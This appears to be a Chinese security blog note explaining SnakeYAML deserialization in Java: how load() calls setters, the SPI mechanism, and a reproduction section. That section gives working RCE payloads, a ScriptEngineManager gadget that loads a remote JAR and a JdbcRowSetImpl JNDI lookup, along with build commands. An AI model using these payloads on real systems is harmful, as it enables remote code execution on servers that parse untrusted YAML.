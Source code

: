 ### Snakeyaml简介

YAML是”YAML Ain’t a Markup Language”；它并不是一种标记语言，而是用来表示序列化的一种格式；类似于XML但比XML更简洁。

在java中自然有对应的库对其进行解析，SnakeYaml；支持对象的序列化和反序列化；常见的利用javax.script.ScriptEngineManager的利用链是基于SPI机制进行实现的；

推一个yaml格式化工具：https://www.345tool.com/zh-hans/formatter/yaml-formatter

### SnakeYaml序列化与反序列化基础

#### 依赖

```xml
<dependency>
  <groupId>org.yaml</groupId>
  <artifactId>snakeyaml</artifactId>
  <version>1.27</version>
</dependency>
```

SnakeYaml提供了Yaml.dump()和Yaml.load()两个函数对yaml格式的数据进行序列化和反序列化。

- Yaml.load()：入参是一个字符串或者一个文件，经过序列化之后返回一个Java对象；
- Yaml.dump()：将一个对象转化为yaml文件形式；

```java
public class snake {
//        static {
//        try {
//            Runtime.getRuntime().exec("calc");
//        }catch (Exception e){
//
//        }
//    }
    protected String name;
    private String test;
    public String tt;
    String abc;
    public snake(){
        System.out.println("构造方法");
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public void setTest(String test) {
        System.out.println("setTest");
        this.test = test;
    }

    public void setTt(String tt) {
        System.out.println("setTt");

        this.tt = tt;
    }

    public void setAbc(String abc) {
        System.out.println("setAbc");

        this.abc = abc;
    }
}
```

#### 序列化

```java
public static void serialize(){
        snake snake = new snake();
        snake.setName("abc");
        snake.setTest("aa");
        snake.setTt("jj");
        snake.setAbc("def");
        Yaml yaml = new Yaml();
        String str = yaml.dump(snake);
        System.out.println(str);
    }
```

![image-20220906132123868](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906132123868.png)

可以发现YAML使用`!!xxx`标明类名

#### 反序列化

```java
public static void unserialize(){
        Yaml yaml = new Yaml();
        yaml.load("!!test.snake {name: abc, test: aa, tt: jj, abc: def}");
    }
```

![image-20220906132209982](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906132209982.png)

当属性不是由public修饰的时候会调用set方法

可以看到`Constructor#constructJavaBean2ndStep`，其中会获取yaml格式数据中的属性的键值对，然后调用property.set()来设置新建的目标对象的属性值

![image-20220906133643140](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906133643140.png)

这个property是在`org.yaml.snakeyaml.introspector.PropertyUtils#getPropertiesMap`设置的

![image-20220906134557288](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906134557288.png)

如果是public修饰则调用`org.yaml.snakeyaml.introspector.FieldProperty#set`，通过反射获取值。而如果是MethodProperty.set()函数，则就是通过反射机制来调用目标类name属性的setter方法来进行属性值的设置。



#### 反序列化流程

```
set:77, MethodProperty (org.yaml.snakeyaml.introspector)
constructJavaBean2ndStep:285, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:171, Constructor$ConstructMapping (org.yaml.snakeyaml.constructor)
construct:331, Constructor$ConstructYamlObject (org.yaml.snakeyaml.constructor)
constructObjectNoCheck:229, BaseConstructor (org.yaml.snakeyaml.constructor)
constructObject:219, BaseConstructor (org.yaml.snakeyaml.constructor)
constructDocument:173, BaseConstructor (org.yaml.snakeyaml.constructor)
getSingleData:157, BaseConstructor (org.yaml.snakeyaml.constructor)
loadFromReader:490, Yaml (org.yaml.snakeyaml)
load:416, Yaml (org.yaml.snakeyaml)
unserialize:21, testsnake (test)
main:7, testsnake (test)
```

这里先讲一个细节：

从constructDocument会走到getClassForNode()函数，这里先根据tag取出className为目标类，然后调用getClassForName()函数获取到具体的类。

![image-20220906142252673](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906142252673.png)



而getClassForName可以初始化静态块里面的函数，所以这里可以弹一下计算器

### 漏洞复现

#### SPI机制

SPI（Service Provider Interface），是JDK内置的一种 服务提供发现机制，可以用来启用框架扩展和替换组件，主要是被框架的开发人员使用，比如java.sql.Driver接口，其他不同厂商可以针对同一接口做出不同的实现，MySQL和PostgreSQL都有不同的实现提供给用户，而Java的SPI机制可以为某个接口寻找服务实现。Java中SPI机制主要思想是将装配的控制权移到程序之外，在模块化设计中这个机制尤其重要，其核心思想就是 **解耦**。

SPI整体机制图如下：

![img](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/java-advanced-spi-8.jpg)

当服务的提供者提供了一种接口的实现之后，需要在classpath下的`META-INF/services/`目录里创建一个以服务接口命名的文件，这个文件里的内容就是这个接口的具体的实现类。当其他的程序需要这个服务的时候，就可以通过查找这个jar包（一般都是以jar包做依赖）的`META-INF/services/`中的配置文件，配置文件中有接口的具体实现类名，可以根据这个类名进行加载实例化，就可以使用该服务了。JDK中查找服务的实现的工具类是：`java.util.ServiceLoader`。

#### 利用SPI机制-基于ScriptEngineManager利用链

```java
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/a.jar"]]]]
```

POC脚本：https://github.com/artsploit/yaml-payload

![image-20220906145030274](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906145030274.png)

打包一下：

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

利用：

```java
import org.yaml.snakeyaml.Yaml;

public class yaml {
    public static void main(String[] args) {
        String context = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:8888/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
        Yaml yaml = new Yaml();
        yaml.load(context);
    }
}
```

![image-20220906145748078](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220906145748078.png)



#### JdbcRowSetImpl打jndi

```
String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: \"rmi://127.0.0.1:1099/Exploit\", autoCommit: true}";
```

#### 不出网

> https://xz.aliyun.com/t/10655





参考：

https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90/#%E4%BD%BF%E7%94%A8SnakeYaml%E8%BF%9B%E8%A1%8C%E5%BA%8F%E5%88%97%E5%8C%96%E5%92%8C%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96

https://s1mple-top.github.io/2022/03/26/Java-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://www.cnblogs.com/R0ser1/p/16213257.html#snake-yaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%BF%87%E7%A8%8B

https://xz.aliyun.com/t/11599#toc-1

https://xz.aliyun.com/t/10655

